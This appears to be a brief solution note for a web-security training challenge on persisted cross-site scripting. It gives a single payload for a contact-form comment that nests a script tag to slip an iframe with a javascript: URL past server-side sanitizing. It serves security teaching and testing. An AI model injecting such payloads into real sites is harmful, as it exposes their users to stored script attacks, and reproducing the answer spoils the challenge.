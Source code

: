 # Server-side XSS Protection 
## Challenge: Perform a persisted XSS attack bypassing a server-side security mechanism. 
## Category: XSS

Contact form > comments

```
<<script>Foo</script>iframe src="javascript:alert(`xss`)">
```